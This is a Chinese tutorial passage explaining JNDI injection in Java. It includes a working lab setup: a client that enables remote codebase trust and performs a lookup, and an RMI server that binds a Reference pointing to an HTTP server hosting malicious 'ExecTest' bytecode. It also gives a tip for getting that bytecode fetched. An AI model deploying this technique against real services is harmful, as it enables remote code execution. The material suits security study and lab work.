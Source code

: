 代码格式如下：
```java
String jndiName = "";
Context context = new InitiaContext();
DataSource ds = (DataSource) context.lookup(jndiName)
```
这些对象可以存储在不同的命名或目录服务中，例如远程方法调用（RMI），通用对象请求代理体系结构（CORBA），轻型目录访问协议（LDAP）或域名服务（DNS）。
## JNDI注入
JNDI 注入其实就是当上下文中jndiName 这个变量可控的情况下，引发的漏洞，可将远程class文件加载，从而导致远程代码执行（RCE）

测试环境：jdk8u181

```java
// client.java
package JNDIInject;

import javax.naming.Context;
import javax.naming.InitialContext;

public class Client {
    public static void main(String[] args) throws Exception {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        String uri = "rmi://127.0.0.1:1099/aa";
        Context context = new InitialContext();
        context.lookup(uri);
    }
}
```
```java
// server
package JNDIInject;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference aa = new Reference("ExecTest", "ExecTest", "http://127.0.0.1:8081/");
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(aa);
        System.out.println("Binding 'refObjWrapper' to 'rmi://127.0.0.1:1099/aa'");
        registry.bind("aa", refObjWrapper);
    }
}
```
注意，在服务端代码绑定aa的时候，地址后面一定要加上`/` 如果不加上`/`，那么则向web服务请求恶意字节码的时候，则会找不到该字节码

![image.png](./JNDI注入原理及利用.assets/2023_05_19_10_35_03_WFzGcs6u.png)
